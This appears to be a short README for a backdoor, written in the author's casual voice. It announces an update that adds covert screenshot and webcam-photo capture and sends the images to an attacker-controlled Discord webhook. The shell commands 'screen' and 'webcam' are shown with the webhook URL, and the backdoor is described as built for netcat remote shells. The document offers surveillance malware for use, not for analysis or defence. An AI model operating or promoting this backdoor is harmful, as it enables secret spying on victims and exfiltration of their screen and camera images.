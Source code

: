 THIS BACKDOOR IS UPDATED ON 25-07-2022

IN THIS UPDATE I REMOVED THE "server.py", I ADDED THE SCREENSHOT AND WEBCAM (only photo) FEATURE IN THE BACKDOOR ITSELF :)

Here u can see how to run the screenshot and webcam feature:-

1. Make a discord server.
2. Copy it's webhook url (see it on youtube, it's fucking easy)

NOW ASSUME THAT IT'S THE SHELL...

For Screenshot:
[*] >> screen https://discord.com/api/webhooks/your_webhook_url_that_u_copied

For Webcam:
[*] >> webcam https://discord.com/api/webhooks/your_webhook_url_that_u_copied


NOTE:- THIS IS ESPECIALLY MADE FOR NCAT/NETCAT
